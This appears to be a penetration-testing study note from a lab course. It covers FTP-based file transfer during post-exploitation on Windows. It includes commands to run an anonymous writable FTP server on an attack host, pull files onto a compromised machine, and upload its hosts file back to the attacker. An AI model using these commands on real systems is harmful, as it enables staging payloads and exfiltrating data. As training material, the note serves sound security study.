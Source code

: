 ```yaml
---
tags:
  - Pentesting
  - Post-Exploitation
  - File_Transfer
---
```


Another way to transfer files is using FTP (File Transfer Protocol), which use port TCP/21 and TCP/20. We can use the FTP client or PowerShell Net.WebClient to download files from an FTP server.

We can configure an FTP Server in our attack host using Python3 `pyftpdlib` module. It can be installed with the following command:

#### Installing the FTP Server Python3 Module - pyftpdlib

```shell-session
arenwald@htb[/htb]$ sudo pip3 install pyftpdlib
```

Then we can specify port number 21 because, by default, `pyftpdlib` uses port 2121. Anonymous authentication is enabled by default if we don't set a user and password.

#### Setting up a Python3 FTP Server

```shell-session
arenwald@htb[/htb]$ sudo python3 -m pyftpdlib --port 21

[I 2022-05-17 10:09:19] concurrency model: async
[I 2022-05-17 10:09:19] masquerade (NAT) address: None
[I 2022-05-17 10:09:19] passive ports: None
[I 2022-05-17 10:09:19] >>> starting FTP server on 0.0.0.0:21, pid=3210 <<<
```

After the FTP server is set up, we can perform file transfers using the pre-installed FTP client from Windows or PowerShell `Net.WebClient`.

#### Transfering Files from an FTP Server Using PowerShell

```powershell-session
PS C:\htb> (New-Object Net.WebClient).DownloadFile('ftp://192.168.49.128/file.txt', 'C:\Users\Public\ftp-file.txt')
```

When we get a shell on a remote machine, we may not have an interactive shell. If that's the case, we can create an FTP command file to download a file. First, we need to create a file containing the commands we want to execute and then use the FTP client to use that file to download that file.

#### Create a Command File for the FTP Client and Download the Target File

```cmd-session
C:\htb> echo open 192.168.49.128 > ftpcommand.txt
C:\htb> echo USER anonymous >> ftpcommand.txt
C:\htb> echo binary >> ftpcommand.txt
C:\htb> echo GET file.txt >> ftpcommand.txt
C:\htb> echo bye >> ftpcommand.txt
C:\htb> ftp -v -n -s:ftpcommand.txt
ftp> open 192.168.49.128
Log in with USER and PASS first.
ftp> USER anonymous

ftp> GET file.txt
ftp> bye

C:\htb>more file.txt
This is a test file
```

## FTP Uploads

Uploading files using FTP is very similar to downloading files. We can use PowerShell or the FTP client to complete the operation. Before we start our FTP Server using the Python module `pyftpdlib`, we need to specify the option `--write` to allow clients to upload files to our attack host.

  Windows File Transfer Methods

```shell-session
arenwald@htb[/htb]$ sudo python3 -m pyftpdlib --port 21 --write

/usr/local/lib/python3.9/dist-packages/pyftpdlib/authorizers.py:243: RuntimeWarning: write permissions assigned to anonymous user.
  warnings.warn("write permissions assigned to anonymous user.",
[I 2022-05-18 10:33:31] concurrency model: async
[I 2022-05-18 10:33:31] masquerade (NAT) address: None
[I 2022-05-18 10:33:31] passive ports: None
[I 2022-05-18 10:33:31] >>> starting FTP server on 0.0.0.0:21, pid=5155 <<<
```

Now let's use the PowerShell upload function to upload a file to our FTP Server.

#### PowerShell Upload File

  Windows File Transfer Methods

```powershell-session
PS C:\htb> (New-Object Net.WebClient).UploadFile('ftp://192.168.49.128/ftp-hosts', 'C:\Windows\System32\drivers\etc\hosts')
```

#### Create a Command File for the FTP Client to Upload a File

  Windows File Transfer Methods

```cmd-session
C:\htb> echo open 192.168.49.128 > ftpcommand.txt
C:\htb> echo USER anonymous >> ftpcommand.txt
C:\htb> echo binary >> ftpcommand.txt
C:\htb> echo PUT c:\windows\system32\drivers\etc\hosts >> ftpcommand.txt
C:\htb> echo bye >> ftpcommand.txt
C:\htb> ftp -v -n -s:ftpcommand.txt
ftp> open 192.168.49.128

Log in with USER and PASS first.


ftp> USER anonymous
ftp> PUT c:\windows\system32\drivers\etc\hosts
ftp> bye
```